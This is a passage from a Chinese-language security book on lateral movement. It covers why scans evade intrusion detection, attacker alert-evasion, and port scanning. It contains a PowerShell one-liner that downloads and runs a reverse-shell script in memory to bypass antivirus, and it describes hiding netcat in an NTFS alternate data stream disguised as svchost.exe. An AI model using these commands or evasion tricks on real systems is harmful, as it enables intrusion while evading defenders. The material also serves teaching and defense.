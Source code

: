 网络映射之所以可行，并且在很大程度上很容易做到，是因为在防止其发生时所面临的挑战。组织可以选择完全屏蔽其系统，以防止像`nmap`这样的扫描，但这通常是通过**网络入侵检测系统**（**NDISs**）来完成的。当黑客扫描单个目标时，他们扫描的是网络的局部段，因此可以避免通过 NDISs。为了防止扫描发生，组织可以选择部署基于主机的入侵检测系统，但大多数网络管理员不会在网络中考虑这样做，尤其是在主机数量庞大的情况下。

每个主机上增加的监控系统将导致更多的警报，并需要更多的存储容量，具体取决于组织的规模，这可能会导致数以 TB 计的数据，其中大多数是误报。这也增加了组织中安全团队的挑战，因为他们通常只有足够的资源和意志力去调查平均只有 4%的网络安全警报。不断大量检测到误报也使得安全团队不愿继续跟进网络中的威胁。

考虑到监控横向移动活动的挑战，受害组织最好的希望是基于主机的安全解决方案。然而，黑客通常会携带能够禁用或使其失效的手段。

# 避免警报

攻击者需要在这个阶段避免引起警报。如果网络管理员检测到网络上存在威胁，他们将彻底搜查并阻止攻击者所取得的任何进展。许多组织在安全系统上花费了大量资金来捕捉攻击者。安全工具越来越有效，它们可以识别许多黑客工具和恶意软件的签名。因此，这要求攻击者明智行事。攻击者使用合法工具进行横向移动的趋势已经存在。这些工具和技术是系统已知的或属于系统的，因此通常不构成威胁。因此，安全系统会忽略它们，因为它们是合法的。这些工具和技术使攻击者能够在安全网络中在安全系统的眼皮底下四处移动。

以下是攻击者如何通过使用 PowerShell 避免被检测的示例。可以看到，与其下载一个文件，被目标防病毒系统扫描， PowerShell 直接加载来自互联网的 PS1 文件而不是下载然后加载：

```
PS > IEX (New-Object Net.WebClient).DownloadString('http:///Invoke-PowerShellTcp.ps1')
```

这样的命令将防止正在下载的文件被防病毒程序标记。攻击者还可以利用 Windows NT 文件系统（NTFS）中的**备用数据流**（**ADS**）来避免警报。通过使用 ADS，攻击者可以将其文件隐藏在合法的系统文件中，这对于在系统之间移动是一个很好的策略。以下命令将 Netcat ([`github.com/diegocr/netcat`](https://github.com/diegocr/netcat)) 分叉为一个名为**计算器**（`calc.exe`）的有效 Windows 实用程序，并将文件名（`nc.exe`）更改为`svchost.exe`。这样进程名称不会引起任何警报，因为它是系统的一部分：

![](img/49e25622-e793-4537-9850-447c60bdf0f9.png)

如果您只使用 `dir` 命令列出此文件夹中的所有文件，您将看不到该文件。但是，如果您使用 `Sysinternals` 中的 `streams` 工具，您将能够看到整个名称如下：

![](img/19eb77ae-c1b1-4103-9da2-fbbbe051cd47.png)

# 执行横向移动

横向移动可以使用不同的技术和策略进行。攻击者利用它们在网络中从一个设备移动到另一个设备。他们的目标是加强他们在网络中的存在，并访问许多设备，这些设备包含有价值的信息或用于控制诸如安全等敏感功能。在本节中，我们将介绍最常见的工具和策略。

# 端口扫描

这可能是唯一一种在黑客领域中保留下来的古老技术。它也基本保持不变，因此可以通过各种工具以相同的方式执行。端口扫描用于横向移动，目的是识别黑客可以攻击并尝试从中获取有价值数据的感兴趣系统或服务。这些系统主要是数据库服务器和 Web 应用程序。黑客已经学会了快速和全面的端口扫描很容易被检测到，因此他们使用更慢的扫描工具，可以绕过所有网络监控系统。监控系统通常配置为识别网络上的异常行为，但通过以足够慢的速度扫描，监控工具将不会检测到扫描活动。

大多数使用的扫描工具在第四章中已经讨论过，*侦察*。`nmap`工具通常是许多人的首选，因为它具有许多功能，并且始终可靠和可信赖。
